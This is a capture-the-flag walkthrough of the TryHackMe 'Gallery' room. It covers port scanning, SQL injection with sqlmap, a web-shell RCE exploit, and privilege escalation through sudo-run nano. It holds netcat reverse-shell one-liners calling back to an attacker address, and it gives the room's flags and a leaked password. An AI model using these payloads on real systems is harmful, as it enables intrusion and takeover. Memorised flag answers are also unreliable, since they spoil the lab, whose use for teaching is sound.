

# Gallery THM writeup
<a href = "https://tryhackme.com/room/gallery666"> https://tryhackme.com/room/gallery666 </a>


<h3>1. Question: How many ports are open?</h3>  <br>
Lets start with an nmap scan to get the number of open ports and also i may get a valueable port thats open in the server!
<br>

```
$ nmap 10.10.4.212          
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-17 10:12 EDT
Nmap scan report for 10.10.4.212
Host is up (0.056s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 1.17 seconds
```

The server have 3 open ports, now i got the answer to the first question, **3**

<hr>

<h3>2. Question: What's the name of the CMS?</h3>
<br>
Opening the website on port 80, i get an apache ubuntu default page, this doesn't help much.. 
but i noticed that there is another web server running on port 8080! Lets check it!

Now the website provided us a login page and with the name of the CMS! **Simple Image Gallery**

<hr>

<h3>3. Question: What's the hash password of the admin user? </h3>
When sending a login request, i noticed that i get a suspicious response:

```
{"status":"incorrect","last_qry":"SELECT * from users where username = 'admin' and password = md5('test') "}
```
This gave me an idea that the Login page maybe got some SQL injection vulnerability!
Running sqlmap i can see it detected that the username paramater is vulnerable to an sql injection attack, now i could easily get the admin's passwords hash.
After some time, sqlmap found the hash of the password
```
$ sqlmap -r req.txt --dump
....
+----------------------------------+
| password                         |
+----------------------------------+
| a228b12a08b6527e7978cbe5d914531c |
+----------------------------------+
```

<hr>
<h3>4. Question: What's the user flag?</h3>
To get the user flag, i have to gain a shell on the system.
<br>
I searched for the CMS name and found a possible RCE exploit on exploit-db:
<a href = "https://www.exploit-db.com/exploits/50214"> https://www.exploit-db.com/exploits/50214 </a> <br>
I downloaded this to my machine and i ran it. <br><br>
The exploit uploaded a file to the server, which contained a ?cmd= paramter<br>

Run netcat in listener mode, so the remote host could connect to my Kali:<br>
```
$ ncat -nlvp 8001
```

I pasted my netcat script in the cmd parameter and i successfully got a more stable netcat reverse shell!
```
http://10.10.191.82/gallery/uploads/1760716080_TagogdgiydphbhaodrhLetta.php?cmd=rm+%2Ftmp%2Ff%3Bmkfifo+%2Ftmp%2Ff%3Bcat+%2Ftmp%2Ff%7Cbash+-i+2%3E%261%7Cnc+<Your ip>+8001+%3E%2Ftmp%2Ff
```

<br>
I got shell as www-data, and found the first flag in mike's home directory, but only the user "mike" can read the user.txt, so i have to find a way to be mike!

```
www-data@ip-10-10-191-82:/home/mike$ ls -l
ls -l
total 12
drwx------ 2 mike mike 4096 May 24  2021 documents
drwx------ 2 mike mike 4096 May 24  2021 images
-rwx------ 1 mike mike   32 May 14  2021 user.txt
```

I downloaded linpeas, and ran it. While i was checking the output i noticed that when mike tried to use the command "sudo -l"
he forgot to hit enter, and revealed his password in the bash history file:
```
╔══════════╣ Searching passwords in history files
/var/backups/mike_home_backup/.bash_history:sudo -lb3stpassw0rdbr0xx
/var/backups/mike_home_backup/.bash_history:sudo -l
```

Now i could login to mike's account with the found password: **"b3stpassw0rdbr0xx"** and read the user.txt!
```
mike@ip-10-10-191-82:~$ cat user.txt
THM{af05cd30bfed67849befd546ef}
```
<br>
Switch from netcat to ssh: <a href = "https://github.com/Batyoaron/thm-writeups/blob/main/help/ncat2ssh.md"> https://github.com/Batyoaron/thm-writeups/blob/main/help/ncat2ssh.md </a>
<hr>

<h3>5. Question: What's the root flag?</h3>
I ran "sudo -l" and i noticed there is a program that i can run as root without password

```
mike@ip-10-10-191-82:/opt$ sudo -l
Matching Defaults entries for mike on ip-10-10-191-82:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on ip-10-10-191-82:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh
```
<br><br>
What's inside of opt/rootkit.sh?
```
mike@ip-10-10-191-82:/opt$ cat rootkit.sh
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac
```
Aha, so if i run it as root, and write "read" in the input box (which will the sh script provide) it will open a nano UI as root!<br>
So basically if you have nano run as root, you can do anything, because nano has a feature that lets you to execute system commands
<br>
<br>
So press CTRL + R and then CTRL + X in nano's UI, this will allow us to execute programs, as root because nano is run as root
 
<br>
I want to get a more stable shell, so i open a netcat session in a different shell
```
$ ncat -nlvp 8002
```
And then execute this code in the prompt nano gave us:
```
rm /tmp/f; mkfifo /tmp/f; nc <your_ip> 8002 < /tmp/f | /bin/sh >/tmp/f 2>&1
```
Checking back on the netcat listener, it opened a shell as root!
```
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:8002
Ncat: Listening on 0.0.0.0:8002
Ncat: Connection from 10.10.31.139:51202.

root@ip-10-10-31-139:/home/mike# whoami
root
```
And read the root.txt to get the flag for the final answer
```
root@ip-10-10-31-139:/home/mike# cat /root/root.txt
THM{ba87e0dfe5903adfa6b8b450ad7567bafde87}
```
